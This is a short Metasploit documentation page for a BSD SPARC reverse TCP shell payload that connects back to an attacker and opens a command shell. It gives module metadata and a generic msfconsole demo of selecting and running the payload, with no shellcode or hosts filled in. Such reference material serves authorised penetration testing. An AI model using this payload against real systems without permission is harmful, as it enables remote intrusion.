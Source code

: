 ## BSD Command Shell, Reverse TCP Inline

Connect back to attacker and spawn a command shell


## Module Name
payload/bsd/sparc/shell_reverse_tcp

## Authors
vlad902





## Platforms
bsd

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/bsd/sparc/shell_reverse_tcp
msf payload(shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp) > set TARGET <target-id>
msf payload(shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp) > run
```
    
    